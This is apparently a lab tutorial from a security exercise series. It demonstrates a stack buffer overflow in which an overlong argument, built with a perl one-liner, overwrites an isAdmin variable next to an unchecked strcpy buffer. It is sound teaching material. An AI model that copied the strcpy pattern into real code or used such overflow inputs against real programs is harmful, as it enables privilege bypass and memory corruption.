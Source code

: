 # Simple Buffer overflow - local variable overwrite

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change a sensitive local stack variable, which will give us
virtual "admin" privileges.


### Source 

* Source directory: `~/challenges/challenge09/`
* Source files: [challenge09](https://github.com/dobin/yookiterm-challenges-files/tree/master/challenge09)

You can compile it by calling `make` in the folder `~/challenges/challenge09`


### Vulnerability

Read the source of `challenge09.c`.

The vulnerability lies here:
```c
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[128];
	...
	strcpy(name, username); // strcpy() is unsafe
	...
}

int main(int argc, char **argv) {
    handleData(argv[1], argv[2]);
}
```

The first argument of the program is copied into a stack buffer `name` of 128 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
~/challenges/challenge09$ ./challenge09 sheldon password
isAdmin: 0x0
Not admin.
```

The password "password" seems to be not correct. We dont know
what the actual password is.

But with the correct password, it would look like this:

```
~/challenges/challenge09$ ./challenge09 sheldon ...
isAdmin: 0x1
You are admin!
```


## Abnormal behaviour - buffer overflow

What happens when you insert a string which is longer than 128 bytes? Lets try it.
We can use perl to print 130 characters:

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 130'` password
isAdmin: 0x4141
You are admin!
```

It appears that we have overwritten the `isAdmin` variable with the content `0x4141`. 


## Abnormal behaviour - more buffer overflow

What if we even add some more characters? Lets say 140.

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 140'` password
isAdmin: 0x41414141
You are admin!
Segmentation fault (core dumped)
```

Not only is the `isAdmin` variable `0x41414141`, but we also get a `Segmentation fault` 
at the end.


## Things to think about

* What is happening here? Why Are we "admin" if we use a username which is 130 bytes long?
* Why do we get a segmentation fault if we use a username which is 140 bytes long?
